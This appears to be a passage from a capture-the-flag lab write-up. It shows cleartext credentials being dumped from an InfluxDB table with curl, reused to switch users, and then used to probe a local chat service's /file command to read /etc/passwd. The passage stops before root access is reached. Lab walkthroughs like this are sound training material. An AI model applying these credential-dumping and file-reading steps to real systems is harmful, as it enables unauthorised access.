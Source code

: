Getting values of the table _user_:
```
curl -G 'http://localhost:8086/query?pretty=true' --data-urlencode "db=devzat" --data-urlencode 'q=select * from "user"' -H (...)
```

There are two credentials of users that are enabled:
```
catherine:woBeeYareedahc7Oogeephies7Aiseci

charles:RoyalQueenBee$
```

As _catherine_ exists on the box, the password can be tried to switch users:
```
su - catherine
```

### Privilege Escalation to root

When reading the messages of _catherine_ in the chat service, there is a chat with _patrick_ that mentions a service on port 8443:
```
ssh -l catherine -p 8000 localhost
```
```
patrick: Hey Catherine, glad you came.
catherine: Hey bud, what are you up to?
patrick: Remember the cool new feature we talked about the other day?
catherine: Sure
patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
catherine: Kinda busy right now
patrick: That's perfectly fine. You'll need a password which you can gather from the source. I left it in our default backups location.
catherine: k
patrick: I also put the main so you could diff main dev if you want.
catherine: Fine. As soon as the boss let me off the leash I will check it out.
patrick: Cool. I am very curious what you think of it. Consider it alpha state, though. Might not be secure yet. See ya!
```

This is another SSH service that looks like the chat application from before:
```
ssh -l catherine -p 8443 127.0.0.1
```

When comparing the _commands_ in both applications, this one has a _/file_ command to paste files to the chat:
```
[SYSTEM] file - Paste a files content directly to chat [alpha]

catherine: /file
[SYSTEM] Please provide file to print and the password
catherine: /file /etc/passwd
[SYSTEM] You need to provide the correct password to use this function
catherine: /file /etc/passwd Pass123
[SYSTEM] You did provide the wrong password
```
